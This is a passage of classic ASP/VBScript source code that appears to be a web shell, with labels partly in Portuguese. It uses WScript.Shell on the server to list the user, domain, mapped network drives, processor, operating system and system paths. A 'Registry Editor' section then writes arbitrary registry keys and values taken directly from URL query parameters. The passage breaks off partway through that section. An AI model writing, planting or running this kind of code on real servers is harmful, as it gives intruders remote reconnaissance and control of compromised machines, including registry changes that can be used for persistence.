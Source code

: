         Response.Write copyright & onlinehelp
        Set WshNetwork = Server.CreateObject("WScript.Network")
        Set WshShell = Server.CreateObject("WScript.Shell")
        Set WshEnv = WshShell.Environment("SYSTEM")
        Response.Write "&lt;br&gt;&lt;font face=arial size=2&gt;"
        Response.Write "&lt;b&gt;User Properties:&lt;/b&gt;&lt;br&gt;"
        Response.Write "&lt;b&gt;UserName: &lt;/b&gt;" & WshNetwork.UserName & "&lt;br&gt;"
        Response.Write "&lt;b&gt;Computer Name: &lt;/b&gt;" & WshNetwork.ComputerName & "&lt;br&gt;"
        Response.Write "&lt;b&gt;User Domain: &lt;/b&gt;" & WshNetwork.UserDomain & "&lt;br&gt;"
        Set Drives = WshNetwork.EnumNetworkDrives
        For i = 0 to Drives.Count - 1
            Response.Write "&lt;b&gt;Drive de Rede (Mapeado): &lt;/b&gt;" & Drives.Item(i) & "&lt;br&gt;"
        Next
        Response.Write "&lt;br&gt;&lt;b&gt;Cpu Information:&lt;/b&gt;&lt;br&gt;"
        Response.Write "&lt;b&gt;Processor Architecture: &lt;/b&gt;" & WshEnv("PROCESSOR_ARCHITECTURE") & "&lt;br&gt;"
        Response.Write "&lt;b&gt;Number Of Processors: &lt;/b&gt;" & WshEnv("NUMBER_OF_PROCESSORS") & "&lt;br&gt;"
        Response.Write "&lt;b&gt;Processor Identifier: &lt;/b&gt;" & WshEnv("PROCESSOR_IDENTIFIER") & "&lt;br&gt;"
        Response.Write "&lt;b&gt;Processor Level: &lt;/b&gt;" & WshEnv("PROCESSOR_LEVEL") & "&lt;br&gt;"
        Response.Write "&lt;b&gt;Processor Revision: &lt;/b&gt;" & WshEnv("PROCESSOR_REVISION") & "&lt;br&gt;"
        Response.Write "&lt;br&gt;&lt;b&gt;Operating System Information:&lt;/b&gt;&lt;br&gt;"
        Response.Write "&lt;b&gt;IP: &lt;/b&gt;" & request.servervariables("LOCAL_ADDR") & "&lt;br&gt;"
        Response.Write "&lt;b&gt;Sistem OS: &lt;/b&gt;" & WshEnv("OS") & "&lt;br&gt;"
        Response.Write "&lt;b&gt;Server Software: &lt;/b&gt;" & request.servervariables("SERVER_SOFTWARE") & "&lt;br&gt;"
        Response.Write "&lt;b&gt;Cmd Path: &lt;/b&gt;" & WshShell.ExpandEnvironmentStrings("%ComSpec%") & "&lt;br&gt;"
        Response.Write "&lt;b&gt;Public Paths: &lt;/b&gt;" & WshEnv("PATH") & "&lt;br&gt;"
        Response.Write "&lt;b&gt;Executables: &lt;/b&gt;" & WshEnv("PATHEXT") & "&lt;br&gt;"
        Response.Write "&lt;b&gt;Prompt: &lt;/b&gt; " & WshEnv("PROMPT") & "&lt;br&gt;"
        Response.Write "&lt;b&gt;System Drive: &lt;/b&gt;" & WshShell.ExpandEnvironmentStrings("%SYSTEMDRIVE%") & "&lt;br&gt;"
        Response.Write "&lt;b&gt;System Root: &lt;/b&gt;" & WshShell.ExpandEnvironmentStrings("%SYSTEMROOT%") & "&lt;br&gt;"
        Response.Write "&lt;b&gt;System32 Path: &lt;/b&gt;" & WshShell.CurrentDirectory & "&lt;br&gt;"
        Set Drives = Nothing
        Set WshNetwork = Nothing
        Set WshShell = Nothing
        Set WshEnv = Nothing
    Case "reg"
        checa = checking(cprthtml,keydec)
        Call hdr()
        Response.Write copyright & onlinehelp
        Set WshShell = Server.CreateObject("WScript.Shell")
        Response.Write "&lt;font face=""arial"" size=""2""&gt;&lt;br&gt;&lt;b&gt;Registry Editor:&lt;/b&gt;&lt;br&gt;&lt;br&gt;"
        Select Case Trim(Request.QueryString("regaction"))
            Case "w"
                If Trim(Request.QueryString("process")) = "yes" Then
                    Select Case Trim(Request.QueryString("type"))
                        Case "1"
                            teste = WshShell.RegWrite (Trim(Request.QueryString("key")), Trim(Request.QueryString("value")), "REG_SZ")
                        Case "2"
                            teste = WshShell.RegWrite (Trim(Request.QueryString("key")), CInt(Trim(Request.QueryString("value"))), "REG_DWORD")
                        Case "3"
                            teste = WshShell.RegWrite (Trim(Request.QueryString("key")), CInt(Trim(Request.QueryString("value"))), "REG_BINARY")
                        Case "4"